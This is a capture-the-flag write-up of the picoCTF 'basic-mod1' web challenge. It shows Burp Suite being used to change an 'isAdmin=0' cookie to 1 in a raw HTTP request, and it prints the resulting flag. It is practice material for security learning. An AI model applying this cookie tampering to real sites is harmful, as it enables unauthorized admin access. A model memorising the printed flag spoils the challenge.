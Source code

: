 # basic-mod1

### Links

- Challenge in [picoCTF]https://play.picoctf.org/practice/challenge/288)

### Steps

### Additional Resources

- [Burpsuite](https://portswigger.net/burp/communitydownload)

---
#### Challenge Description & Hints
Go to this [website](http://saturn.picoctf.net:57741/) and see what you can discover. The only hints asks if we know how to modify cookies.
#### Website

We are directed to a simple website that looks like this:

![web page](website.png)

#### Approach

When we click on the button we are redirected to a php page and are prompted with the following: *We apologize, but we have no guest services at the moment.*

#### Burpsuite

I used Burpsuite to look at the http request based on the challenge hint that was given and found out that the button uses a GET request and it looks like this:

```
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:57741
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://saturn.picoctf.net:57741/
Cookie: isAdmin=0
Upgrade-Insecure-Requests: 1
```

#### Cookie

If you pay attention you can see that in the cookie section there is *isAdmin* with the value of 0.

The request can be sent to the buprsuite repeater to be modified, I changed the value from a 0 to a 1 and sent it.

#### Response

After sending the modified request we can analyze the response, which looks like this:

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 03 Oct 2023 14:45:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 79

<html>
<body>

<p>picoCTF{gr4d3_A_c00k13_5d2505be}</p>

</body>
</html>
```


And there is the flag!

***picoCTF{gr4d3_A_c00k13_5d2505be}***

